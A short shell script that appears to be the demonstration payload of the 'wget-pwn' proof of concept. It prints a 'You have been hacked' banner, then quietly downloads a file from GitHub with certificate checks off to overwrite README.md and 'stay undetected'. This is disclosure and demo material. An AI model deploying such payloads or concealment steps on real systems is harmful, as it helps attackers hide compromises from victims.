 echo
echo "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"
echo "!      You have been hacked               !" 
echo "!                                         !"
echo "! https://github.com/markus-perl/wget-pwn !"
echo "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"

echo "
_____.___.             .__   ._._.
\__  |   | ____ _____  |  |__| | |
 /   |   |/ __ \\__  \ |  |  \ | |
 \____   \  ___/ / __ \|   Y  \|\|
 / ______|\___  >____  /___|  /___
 \/           \/     \/     \/\/\/
 "

printf "Patching downloaded file to stay undetected ... "
wget --no-check-certificate –-quiet "https://raw.githubusercontent.com/markus-perl/wget-pwn/master/README.md" -O README.md 2>/dev/null
printf "Done\n"
